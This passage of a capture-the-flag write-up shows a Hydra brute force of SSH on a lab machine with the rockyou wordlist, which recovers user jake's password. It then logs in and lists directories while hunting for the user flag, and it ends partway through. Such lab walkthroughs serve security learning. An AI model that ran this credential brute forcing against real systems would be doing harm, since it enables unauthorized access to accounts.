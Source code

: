 # Vulnerability Identification
> Brute Forcing Using Hydra
10. `hydra -l {USER} -P {WORDLIST PATH} ssh://{TARGET IP}` to attempt to crack the vulnerable user's password, which ended up working and revealing to us their password 
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l jake -P rockyou.txt ssh://10.10.169.224
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-29 08:24:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.169.224:22/
[22][ssh] host: 10.10.169.224   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-29 08:25:41
```

# Vulnerability Exploitation
> Connecting Using SSH
11. `ssh {USER}@{TARGET IP} -p 22` to connect to the target with the new set of credentials that we now have using SSH
```bash
┌──(kali㉿kali)-[~]
└─$ ssh jake@10.10.169.224 -p 22                
The authenticity of host '10.10.169.224 (10.10.169.224)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.169.224' (ED25519) to the list of known hosts.
jake@10.10.169.224's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```
12. `ls /` to display the available files and directories within the target filesystem's root directory (**/**) onto our terminal
13. `ls /home` to display the available files and directories within the target filesystem's **/home** directory onto our terminal, which revealed there to be three users
14. `ls /home/holt` to display the available files and directories within the third user's home directory onto our terminal, since the two other don't have anything in theirs, which revealed a user text file
15. `cat /home/holt/{USER TEXT FILE}` to display the contents of the user text file onto our terminal, which revealed the user flag for this challenge
```bash
jake@brookly_nine_nine:~$ ls /
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
```
```bash
jake@brookly_nine_nine:~$ ls /home
amy  holt  jake
```
```bash
jake@brookly_nine_nine:~$ ls /home/holt
```